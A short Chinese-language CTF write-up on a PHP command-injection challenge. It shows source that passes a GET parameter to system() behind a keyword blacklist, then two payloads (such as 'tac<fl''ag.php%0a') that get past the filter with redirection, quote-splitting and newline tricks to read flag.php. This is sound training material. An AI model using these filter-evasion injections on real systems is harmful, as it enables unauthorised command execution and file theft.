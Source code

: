 ```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-05 20:49:30
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-05 22:06:20
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|awk|strings|od|curl|\`/i", $c)){
        system($c." >/dev/null 2>&1");
    }
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤了

;

cat

空格

flag

数字

$

*

more

less

head

sort

tail

sed

cut

awk

strings

od

curl

`





### 第一种

同上题

<>绕过空格

\绕过字母

```
?c=ls||
```

![image-20250403154208880](./assets/image-20250403154208880.png)

```
?c=tac<>fl\ag.php||
```

![image-20250403154244935](./assets/image-20250403154244935.png)







### 第二种

<绕过空格

''绕过字母

%0a绕过无回显

```
?c=tac<fl''ag.php%0a
```

![image-20250403154326324](./assets/image-20250403154326324.png)